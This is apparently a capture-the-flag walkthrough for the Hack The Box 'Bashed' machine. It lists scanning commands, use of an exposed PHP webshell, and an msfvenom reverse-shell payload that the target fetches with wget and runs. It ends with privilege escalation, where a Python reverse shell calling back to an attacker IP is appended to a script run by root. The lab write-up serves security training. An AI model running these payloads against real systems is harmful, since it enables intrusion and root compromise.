





# [Bashed](https://app.hackthebox.eu/machines/118)

Start off with an couple of `nmap` scans:

```bash
sudo nmap -sS -sC -p1-65535      --open -Pn 10.10.10.68 # deep scan 
sudo nmap -sS -sC --top-ports=20 --open -Pn 10.10.10.68 # quick scan
```

Both scans return the following open port:


While exploring the website, the following scans can run in the background:

```bash
dirb http://10.10.10.68 -r
nikto -h http://10.10.10.68 --maxtime=30s
```

The website is a landing page for a PHP reverse shell for penetration testing and points to a Github repository: https://github.com/Arrexel/phpbash


Looking at the other scans, `nikto` didn't return anything useful. However, `dirb` returned the following interesting directories:



Looking inside `http://10.10.10.68/dev` shows 2 files `phpbash.php` and `phpbash.min.php` which open shells on the target:



After some basic enumeration, the machine is running `Ubuntu 16.04.2 LTS` on an `x86_64` architecture and has `wget` installed. From here, a reverse shell payload can be made, uploaded, and executed:

```bash
# generate the payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.23 \
         LPORT=6969 \
         –e x86/shikata_ga_nai \
         -i 9 \
         -f elf > bubba.elf
# host the payload on port 8080
python3 -m http.server 8080
```

Then in the PHP webshell:

- Had issues trying to run the following as one command... but it works when running each seperately?

```bash
cd /tmp
wget http://10.10.14.23:8080/bubba.elf
chmod 777 bubba.elf
./bubba.elf
```

This will spawn a dedicated reverse shell that can be upgraded to a TTY shell using the following:

- TTY shell upgrades: https://netsec.ws/?p=337

```bash
/usr/bin/script -qc /bin/bash /dev/null
```


Looking for user files gives `user.txt`:



During user enumeration, the following interesting users show up and `www-data` is allowed to run commands as one of them:

```bash
cat /etc/passwd | cut -d: -f1 # list users
sudo -l                       # get user permissions
sudo -u scriptmanager id      # test user permissions
```



Next find all files owned by this new user `scriptmanager`. This returns an interesting file at `/scripts/test.py`:

```bash
sudo -u scriptmanager find / -user scriptmanager -type f -exec ls -lad {} \; 2>/dev/null
```


This file has the following contents:

```python
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

When looking for the file `test.txt`, it seems to be owned by `root`:

```bash
sudo -u scriptmanager find / -iname test.txt -type f -exec ls -lad {} \; 2>/dev/null
```


Maybe `root` is running this `test.py`? To test the theory, add the following to `test.py`:

```bash
sudo -u scriptmanager /bin/bash
echo "f=open('hello','w');f.write('world');f.close" >> /scripts/test.py
```

After a couple of minutes, a new file appears in `/scripts` owned as `root`!


Add the following Python reverse shell payload to `test.py` as `scriptmanager` for a `root` reverse shell:

```bash
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.23",7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' >> /scripts/test.py
```

And wait for the connection:



